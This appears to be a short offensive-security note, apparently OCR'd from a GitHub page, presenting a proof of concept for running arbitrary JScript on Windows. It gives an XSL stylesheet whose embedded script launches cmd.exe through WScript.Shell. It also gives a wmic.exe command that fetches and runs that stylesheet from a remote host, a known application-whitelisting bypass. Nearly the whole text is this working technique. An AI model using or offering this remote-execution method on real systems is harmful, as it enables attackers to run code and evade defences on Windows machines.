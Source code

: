 **EXTRA WAYS TO EXECUTE ARBIRTRARY JSCRIPT CODE:**

Via XLS transform. Proof of concept to execute an additional cmd.exe:

Content of test .xls:

```
<?xml version='1.0'?>
<stylesheet version="1.0"
xmlns="http://www.w3.org/1999/XSL/Transform"
xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">

<output method="text"/>
  <ms:script implements-prefix="user" language="JScript">
    <![CDATA[
      var r = new ActiveXObject("WScript.Shell");
      r.Run("cmd.exe");
    ] ]>
  </ms:script>
</stylesheet>
```

Then execute it with wmic.exe as follows:

```
C:\wmic process get brief /format:"http://192.168.1.1/test.xsl"
```
